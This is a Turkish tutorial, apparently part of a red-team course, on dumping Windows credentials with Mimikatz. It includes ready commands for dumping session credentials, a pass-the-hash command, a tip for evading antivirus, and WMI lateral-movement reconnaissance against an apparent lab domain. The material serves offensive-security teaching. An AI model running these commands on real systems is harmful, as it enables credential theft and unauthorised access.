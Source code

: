 # Credential Dumping

Credential Dumping, saldırganların bir sistemde saklanan kimlik bilgilerini (kullanıcı adları, parolalar, hash’ler, Kerberos biletleri vb.) ele geçirmek için kullandığı bir saldırı tekniğidir.

## MimiKatz

Mimikatz, windows’ta parolaları, hash’leri, Kerberos ticket’larını vb. bellekten çıkaran (credential dumping) ünlü bir post-exploitation aracıdır. Domain server'da yetki yükselttikten sonra artık bilgileri dump etmeye başlayabiliriz. 

### Adım 1 | Mimikatz Giriş

```
../Invoke-Mimikatz.ps1
```

Bu komut, "bir üst klasördeki Invoke-Mimikatz.ps1 dosyasını çalıştır” anlamındadır. Antivirüslerden kaçmak için bu yol izlenir ve Mimikatz scriptlerini çalıştırma imkanı sağlar.

### Adım 2 | Oturum Bilgilerini Çekmek

```
Invoke-Mimikatz -DumpCreds -Verbose
```

Komutu, **PowerShell** üzerinden **Mimikatz** kullanarak sistemdeki oturum bilgilerini (parola, hash, Kerberos ticket) ayrıntılı şekilde görüntülemek için çalıştırılır.

### Adım 3 | Hash İle Manipülasyon

Azönceki çektiğimiz oturum bilgilerinde parolalar direkt olarak değilde hash olarak verilir. Bu hash'leri çözmek yerine direkt bu hashleri kullanarak sistemde bu hash sahibi olan kullanıcı gibi davranabiliriz.

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:user /domain:cyberwarfare.corp /rc4 <hash> /run:powershell.exe"'
```

* `Invoke-Mimikatz` → PowerShell içinden Mimikatz fonksiyonunu çalıştırır.

* `sekurlsa::pth` → Pass-the-Hash modülü. Parolayı bilmeden sadece NTLM hash ile oturum açma.

* `/user:user` → Taklit edilecek kullanıcının adı (user).

* `/domain:cyberwarfare.corp` → Kullanıcının bağlı olduğu domain.

* `/rc4 <hash>` → Kullanıcının NTLM hash’i (RC4 burada NTLM hash türünü ifade ediyor).

* `/run:powershell.exe` → Bu hash ile açılacak yeni işlem. Yani bu hash kimliğiyle yeni bir PowerShell oturumu başlatır.

### Adım 4 | Lateral Movement

```
cd C:\Users\employee\Downloads
..\Find-WMILocalAdminAccess.ps1
Find-WMILocalAdminAccess -Verbose
```

Bu komutlar, elde edilen kimlik bilgileriyle ağda **lateral movement (yana doğru hareket)** için keşif yapıyor.Geçerli oturumdaki kullanıcı (bu durumda Pass-the-Hash ile taklit edilen "user") hangi bilgisayarlara WMI üzerinden Local Admin olarak erişebilir, bunu tespit eder.

---

**NOT: Bu dersin ardından lateral-movement.md dosyasını okumalısınız**
